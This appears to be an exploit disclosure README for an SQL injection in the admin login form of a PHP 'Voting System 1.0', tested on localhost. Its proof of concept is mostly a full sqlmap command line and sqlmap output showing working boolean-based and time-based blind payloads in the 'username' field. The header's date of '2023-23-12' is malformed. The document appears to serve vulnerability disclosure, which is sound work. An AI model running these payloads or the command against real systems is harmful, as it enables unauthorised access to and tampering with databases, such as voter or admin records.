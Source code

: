 # Voting_System-SQL_Injection-1
+ **Exploit Title:** Voting_System-SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-

## References: 

## Description:
Voting System 1.0 allows SQL Injection via parameter 'username' in "/votesystem/admin/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin login page: "http://localhost/votesystem/admin/"
+ Fill the username and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
sqlmap -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test' OR NOT 6416=6416-- SOwv&password=test&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 3547 FROM (SELECT(SLEEP(5)))OFWl)-- funY&password=test&login=
---
[18:54:43] [INFO] testing MySQL
[18:54:44] [INFO] confirming MySQL
[18:54:44] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:54:44] [INFO] fetching current database
[18:54:44] [INFO] resumed: votesystem
current database: 'votesystem'
```

+ current database: `votesystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/09972f6e-8875-4c94-b64d-3cebf4ff1ab8)
